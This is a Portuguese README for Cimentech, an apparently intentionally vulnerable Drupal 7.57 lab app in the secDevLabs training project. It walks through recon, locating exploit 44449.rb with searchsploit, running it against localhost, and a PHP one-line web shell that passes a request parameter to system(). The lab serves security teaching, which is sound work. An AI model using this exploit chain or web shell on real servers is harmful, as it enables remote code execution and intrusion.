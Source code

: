 # Cimentech

<p align="center">
    <img src="images/attack1.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Cimentech é um aplicativo web simples construído com Drupal que contém um exemplo de um componente com uma vulnerabilidade conhecida e seu principal objetivo é demonstrar como um invasor pode explorá-lo.

## Index

- [Cimentech](#cimentech)
  - [Index](#index)
  - [O que significa usar componentes desatualizados e vulneráveis?](#o-que-significa-usar-componentes-desatualizados-e-vulneráveis)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 🏗](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [👀](#)
      - [O uso de uma versão vulnerável do Drupal permite a execução remota de código](#o-uso-de-uma-versão-vulnerável-do-drupal-permite-a-execução-remota-de-código)
  - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que significa usar componentes desatualizados e vulneráveis?

Imagine que componentes, como bibliotecas, frameworks e outros módulos de software, sejam executados com os mesmos privilégios do aplicativo. Se um componente vulnerável for explorado, esse ataque pode facilitar a perda grave de dados ou o controle do servidor. Aplicativos e APIs que usam componentes com vulnerabilidades conhecidas podem prejudicar as defesas de aplicativos e permitir vários ataques e impactos.

O principal objetivo deste aplicativo é discutir como os **componentes desatualizados e vulneráveis** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/cimentech
```

```sh
make install
```

Depois é só visitar [localhost][app] ! 😆

## Conheça o app 🏗

Para entender corretamente como esse aplicativo funciona, você pode:

- Visitar sua página inicial!

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma versão vulnerável do Drupal permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP padrão 80, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Depois, dando uma olhada no arquivo `/robots.txt`, é possível encontrar o arquivo `CHANGELOG.txt` no campo `Disallow`, conforme ilustrado na imagem abaixo:

<img src="images/attack2.png" align="center"/>

Ao ser acessado, pode-se encontrar uma indicação da versão do Sistema de Gerenciamento de Conteúdo (Drupal), conforme mostrado abaixo:

<img src="images/attack3.png" align="center"/>

Tendo a versão do CMS, é possível verificar em [exploit-db][3] se há algum exploit associado a essa versão, neste caso, Drupal 7.57. Os resultados da pesquisa estão descritos na imagem abaixo:

<img src="images/attack4.png" align="center"/>

Ao usar [searchsploit](https://www.exploit-db.com/searchsploit), um invasor também pode encontrar esse mesmo resultado por meio de um terminal. Para instalá-lo, basta digitar o seguinte em seu terminal OSX (lembre-se de que pode acionar seu software antivírus):

```sh
⚠️ 'O próximo comando irá instalar vários códigos de exploração em seu sistema e muitos deles podem acionar alertas de antivírus'

brew install exploitdb
```

Em seguida, basta procurar a versão do CMS encontrada:

```sh
searchsploit drupal 7.
```

Se você estiver usando OSX, este comando o ajudará a copiar o exploit para sua pasta `/tmp`:

```
cp /usr/local/opt/exploitdb/share/exploitdb/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Executando o código Ruby malicioso, temos evidências de que a execução remota de código é possível no servidor web, usando os seguintes comandos conforme mostrado abaixo: 

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTA**: Você precisa ter o Ruby instalado em seu sistema para executar o exploit, para informações sobre como instalá-lo, clique [aqui][1]!

**NOTA 2**: Se você encontrar um erro de execução ao tentar executar o exploit, consulte este [Problema][4] para obter informações sobre como proceder. 

A exploração funciona adicionando ao servidor um `s.php` malicioso, que permite a execução remota de código através do seguinte conteúdo malicioso:
         
```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Usando o "fake shell" do exploit, podemos digitar um comando, como `whoami`, para verificar se realmente temos um RCE no servidor, conforme mostra a imagem:

<img src="images/attack6.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute o código remotamente através do exploit acima

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:80
[secdevlabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a6/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212
